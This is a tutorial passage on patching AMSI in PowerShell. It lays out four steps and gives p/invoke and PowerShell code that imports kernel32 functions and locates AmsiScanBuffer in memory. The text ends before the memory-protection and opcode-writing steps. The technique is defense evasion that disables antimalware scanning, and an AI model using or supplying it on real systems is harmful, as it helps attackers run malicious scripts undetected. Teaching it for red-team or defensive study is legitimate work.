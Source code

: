 At a high-level AMSI patching can be broken up into four steps,

1. Obtain handle of amsi.dll
2. Get process address of AmsiScanBuffer
3. Modify memory protections of AmsiScanBuffer
4. Write opcodes to AmsiScanBuffer

We first need to load in any external libraries or API calls we want to utilize; we will load [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress), [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea), and [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) from **kernel32** using [p/invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke).

```
[DllImport(`"kernel32`")] // Import DLL where API call is stored
public static extern IntPtr GetProcAddress( // API Call to import
	IntPtr hModule, // Handle to DLL module
	string procName // function or variable to obtain
);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(
	string lpModuleName // Module to obtain handle
);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(
	IntPtr lpAddress, // Address of region to modify
	UIntPtr dwSize, // Size of region
	uint flNewProtect, // Memory protection options
	out uint lpflOldProtect // Pointer to store previous protection options
); 
```

The functions are now defined, but we need to load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will allow the functions to be called.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

Now that we can call our API functions, we can identify where `amsi.dll` is located and how to get to the function. First, we need to identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process address of `AmsiScanBuffer` using `GetProcAddress`.

```
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```
